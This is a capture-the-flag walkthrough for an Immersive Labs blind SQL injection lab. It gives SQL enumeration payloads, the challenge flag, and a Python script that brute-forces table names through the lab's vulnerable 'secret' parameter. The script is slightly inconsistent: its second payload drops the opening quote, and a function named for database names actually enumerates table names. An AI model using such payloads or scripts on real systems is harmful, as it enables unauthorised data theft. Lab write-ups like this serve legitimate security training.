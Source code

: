 ```yaml
---
date: 2025-02-07
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection – Boolean-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "SQL Injection – Boolean-Based - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Boolean-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)

# ![image1](../resources/fe285dbee3a94cb39237250c0a4785c0.png)


![image2](../resources/2a97e65620e9471ba0af7570a289abf1.png)


![image3](../resources/8ce4225cb1554bfc8964d758cd2f83d4.png)


![image4](../resources/4570b8ad300547bd8fd1a1c3163e0b81.png)

- Modify the \<vulnerable parameter\> in the script to secret
(script below)


![image5](../resources/8184673fee3b45349450eba05b7e06ed.png)


![image6](../resources/5e2a063b6d7449708497114231089566.png)

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

- Use the payloads on the github link above, to modify the script
(script below)


![image7](../resources/8a1673fcdfe44d2690e6ec4947870b82.png)


![image8](../resources/01f47b13f0784805b87bfba78b3cd4c3.png)


![image9](../resources/cca450ef4d25473caa140a1667a4d3aa.png)

- Use the generic way of finding column names:

```bash
group_concat(column_name) from information_schema.columns where table_name="users"

```
and modify the script

(script below)


![image10](../resources/79d5f8cf307b4e40b8f68c1c0d50ed2f.png)

- Modify the script (script below) to find the flag:

```bash
select secret from data

```

![image11](../resources/a37f0e8c753d4168a997110274189715.png)

Change the range of the for j loop - to include more characters


![image12](../resources/7854b17d11ef48fc9f30dfc28c171837.png)


![image13](../resources/6b402aaa99294b179c32d07f6643058f.png)

**Flag is <u>74f87f</u> \<---- Ignore the Capital F's**

**<u>Blind SQLi DB name bruteforce script</u>**


![image14](../resources/80f48c227cad45248b1d24b30cf334ed.png)

**<u>Blind SQLi Table name bruteforce script</u>**


![image15](../resources/2146f6d7c6f9447387b00f079f8a8521.png)

**<u>Blind SQLi Column name bruteforce script</u>**


![image16](../resources/b53d760778b14d6a9a1eae936d0cb00e.png)

**<u>Find the flag</u>**


![image17](../resources/b8dad631e27e4e219ce191cf6dd8f851.png)

**<u>Script:</u>**

```python
import requests
import sys

# Send the payload to the vulnerable parameter on the target host
# If "OK" is found on the webpage -> true response
def send_payload(ip, payload):
    r = requests.get("http://" + ip + "/dbstatus.php?secret=" + payload)
    if "OK" in r.text:
        return True
    else:
        return False

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "'%20OR%20LENGTH((select table_name from information_schema.tables where table_schema=database()))=%d" % i):
            length = i
            break

    db_name = ''
    for i in range(1, length + 1):
        for j in range(96, 123):  # a-z
            if send_payload(ip, "%20OR%20SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s" % (i, chr(j))):
                db_name += chr(j)
                break
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % (sys.argv[0]))
        sys.exit(1)

    ip = sys.argv[1]
    print(brute_db(ip))

if __name__ == "__main__":
    main()

```
